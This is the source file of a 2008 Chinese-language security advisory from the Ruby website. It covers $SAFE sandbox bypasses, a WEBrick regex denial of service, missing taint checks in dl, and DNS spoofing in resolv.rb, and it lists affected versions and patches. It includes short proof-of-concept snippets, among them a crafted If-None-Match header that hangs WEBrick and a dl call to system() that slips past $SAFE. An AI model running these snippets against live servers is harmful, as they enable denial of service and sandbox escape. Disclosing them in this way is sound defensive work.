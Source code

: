 ```yaml
---
layout: news_post
title: "Ruby中的多个安全漏洞 - Ruby 官方网站"
author: "Xpol Wan"
date: 2008-08-08 04:40:03 UTC
lang: zh_cn
---
```


Ruby中发现多个安全漏洞。建议你更新到最新版本。

## 详情

发现以下安全漏洞。

### 在安全级别下的几个漏洞

发现在安全级别下存在几个漏洞。

* 在安全级别4下untrace\_var被允许。

      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }

      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* 在安全级别4下$PROGRAM\_NAME可能被修改。

      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join

      $PROGRAM_NAME #=> "Hello, World!"

* 在安全级别1-3下可能调用不安全的方法。

      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # return wrong size
           end
           msg
         end.value
       end
      end

      $SAFE = 1 # or 2, or 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # print string which size is less than 20
      end

* 在安全级别4下Syslog操作被允许。

      require "syslog"

      Syslog.open

      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

以上漏洞是由Keita Yamaguchi报告的。

### WEBrick中的致拒绝服务(DoS)漏洞

WEBrick::HTTP::DefaultFileHandler存在消耗指数时间响应请求的错误，
因为WEBrick::HTTPUtils.split\_header\_value中的一个回溯正则表达式 （backtracking
regular expression）。

可被利用的服务器：

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

攻击：

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

在这个例子中这个请求很可能无法完成。

这个漏洞是由Christian Neukirchen报告的。

### dl中缺乏完整性检查
{: #label-3}

dl没有进行完整性检查，因此可能允许攻击者调用危险的函数。

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

这个漏洞是由sheepman报告的。

### resolv.rb的欺骗DNS漏洞

resolv.rb允许远程攻击者欺骗DNS响应。这个漏洞可以通过随机的DNS事务ID和源端口来解决。
所以resolv.rb已经采用随机化的方式来修正。

* 参考： [CVE-2008-1447][1]

这个漏洞是由Tanaka Akira报告的。

## 受影响的版本

1.8系列
: * 1\.8.5 和所有之前的版本
  * 1\.8.6-p285 和所有之前的版本
  * 1\.8.7-p70 和所有之前的版本

1.9系列
: * r18423 和所有之前的修订版本

## 解决办法

1.8系列
: 请更新到1.8.6-p286或者1.8.7-p71。
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p286.tar.gz&gt;][2]

        (md5: 797ea136fe43e4286c9362ee4516674e,
        sha256: 1774de918b156c360843c1b68690f5f57532ee48ff079d4d05c51dace8d523ed,
        size: 4590373)

  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p71.tar.gz&gt;][3]

        (md5: 721741d1e0785a0b6b9fb07d55184908,
        sha256: 30ec4298e9ac186a2fe1a94362919ba805538252b707f3aadae1938429269c1a,
        size: 4805478)

1.9系列

: 请通过Subversion取得最新版本。

      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

请注意修正这个漏洞的软件包可能已经可以通过你的软件包管理软件更新了。

## 贡献者

感谢Keita Yamaguchi, Christian Neukirchen, sheepman, and Tanaka Akira为Ruby
Security Team指出这个问题。

## 修订记录

* 2008-08-08 12:21 +09:00 fixed the revision number of ruby 1.9.



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447
[2]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p286.tar.gz
[3]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p71.tar.gz
